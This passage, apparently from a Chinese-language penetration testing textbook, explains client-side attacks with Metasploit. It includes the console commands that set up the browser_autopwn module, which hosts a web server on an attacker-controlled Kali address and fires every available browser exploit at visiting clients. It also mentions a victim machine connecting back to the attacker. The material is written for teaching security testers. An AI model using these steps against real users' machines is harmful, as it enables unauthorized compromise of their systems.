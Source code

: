 现在我们要重启受害者机器。重启后，连接返回到 metasploit 窗口的结果示例如下截图所示：

![利用客户端配置](img/477-1_12_30.jpg)

# 客户端利用

到目前为止，我们所涵盖的大部分内容都是一种客户端利用的形式。在本节中，我们将探讨更多攻击客户端的方法。我们将继续利用客户端的矢量来攻击机器，点击链接或文件并被重定向到我们的攻击者机器。在我们继续之前，我们想再次强调，在撰写本书时，我们使用了最新和最先进的攻击方法。当你阅读本书时，一些事情可能已经发生了变化。然而，唯一不变的是过程和方法论。只要你继续遵循系统化的过程，你就能发现和识别最新的技术，并相应地修改你的方法。

我们在本章中使用的先前方法的一个挑战是，我们必须根据我们遇到的软件版本选择特定的漏洞利用。我们在 Java 和 Internet Explorer 上做到了这一点。这很有效，但是如果我们不知道受害者连接到我们时系统上确切会有什么呢？你可以想象，这是一个合理的担忧。幸运的是，metasploit 出色的开发人员已经解决了这个问题。因此，他们为我们提供了一个模块，一旦连接建立，将尝试提供各种漏洞利用。这个模块就是`browser_autopwn`。这个强大的模块设置了一个带有库存中所有当前漏洞利用的 Web 服务器，当连接建立时，该模块会运行所有可用的漏洞利用，直到找到一个。记住，正如不能被忽视的那样，利用并不是 100%，所以有可能失败。但作为测试人员，我们必须始终尝试，并保持记录发现并继续我们的测试。

所以，让我们开始吧。在 metasploit 界面中，输入以下命令：

```
use auxiliary/server/browser_autopwn
set LHOST <Kali IP>
set SRVHOST <Kali IP>
set SRVPORT 80
set URIPATH /
run

```

`URIPATH`设置告诉 metasploit 不要生成随机 URL。我们希望客户端只连接到运行在 Kali 机器上的服务器的地址。以下是这些设置的示例截图：

![客户端利用](img/477-1_12_32.jpg)

一旦输入了`run`命令，你会注意到工具开始创建支持我们的漏洞利用的许多组件。这将需要一些时间来完成。以下是一些不同组件为漏洞利用创建的输出的示例截图：
